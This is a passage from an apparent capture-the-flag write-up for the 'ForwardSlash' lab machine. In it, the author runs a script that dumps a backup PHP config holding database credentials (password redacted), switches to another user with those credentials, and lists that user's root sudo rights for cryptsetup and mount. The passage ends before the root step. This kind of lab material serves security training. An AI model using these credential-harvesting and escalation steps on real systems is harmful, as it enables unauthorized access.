 Obtained what appears to be his password from that file.

```
chiv@forwardslash:~$ python3 [forwardslash2.py](http://forwardslash2.py/) -f /var/backups/config.php.bak

[+] Script's time: 11:51:02

[+] Generated hash: 1c65469731d8887c2a44e88c9a65ce37

[+] Dumping /var/backups/config.php.bak...

<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'pain');
define('DB_PASSWORD', '<REDACTED>');
define('DB_NAME', 'site');*
...

[+] Script finished successfully
```

Moved laterally to the *Pain* user. Just one more step to go and get root!

```
chiv@forwardslash:~$ su - pain
Password: 

pain@forwardslash:~$ whoami
pain

pain@forwardslash:~$ id
uid=1000(pain) gid=1000(pain) groups=1000(pain),1002(backupoperator)
```

# PrivEsc

Listed the sudoers permissions of the current user.

```
pain@forwardslash:~/encryptorinator$ sudo -l

Matching Defaults entries for pain on forwardslash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pain may run the following commands on forwardslash:
    (root) NOPASSWD: /sbin/cryptsetup luksOpen *
    (root) NOPASSWD: /bin/mount /dev/mapper/backup ./mnt/
    (root) NOPASSWD: /bin/umount ./mnt/
```
